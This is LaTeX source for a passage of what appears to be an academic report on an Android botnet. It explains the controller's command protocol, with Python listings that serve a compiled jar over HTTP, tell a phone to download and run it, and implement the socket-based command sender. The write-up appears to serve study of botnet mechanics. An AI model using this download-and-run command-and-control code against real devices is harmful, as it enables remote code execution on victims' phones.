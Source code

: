 \documentclass[a4paper]{report}
\newcommand{\methodname}[1]{\texttt{#1}}
\begin{document}
{Next, the dexed jar is moved to the static folder so that it is visible from the phone (over HTTP). We tell the phone to download and run the code usind \methodname{sendbotcmd} (see listing \ref{lst:downloadrun}).

\begin{listing}[H]
\begin{verbatim}
st = self.sendbotcmd(ip, port, "download http://" + myip + ":" + str(cherrypy.config["server.socket_port"]) + "/static/dexed.jar")
# some lines removed...
st = self.sendbotcmd(ip, port, "run de.tudarmstadt.botnet.janus_yanai." + realclassname)
\end{verbatim}
\caption{The client phone is asked to download and run our compiled bytecode}
\label{lst:downloadrun}
\end{listing}

We will now move on to \methodname{sendbotcmd} to see how the controller$\leftrightarrow$phone command sending protocol works.

\begin{listing}[H]
\begin{verbatim}
def sendbotcmd(self, host, port, command):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    output = ""
    try:
      s.settimeout(10.0)
      s.connect((host, int(port)))
      s.send(six.b(command + "\n"))
      done = False
      while not done:
        bs = s.recv(256)
        if bs.find("\0") != -1:
          response, garbage = bs.split("\0", 1)
          bs = response
          done = True
        output += bs
    except socket.error as e:
      output += "\n" + str(e)
    s.close()
    return output
\end{verbatim}
\caption{\methodname{sendbotcmd} shows the custom Telnet-like protocol client implementation}
\label{lst:sendbotcmd}
\end{listing}

Observe in listing \ref{lst:sendbotcmd} how the function defintion is lacking the expose decorator. This function is not callable over HTTP.

The command itself is simply sent as ASCII, and followed by a UNIX newline (line 7). We then read data from the socket (line 10) until we get a null byte (line 11). Everything after the byte is discarded.

\section{Client implementation}

}
\end{document}
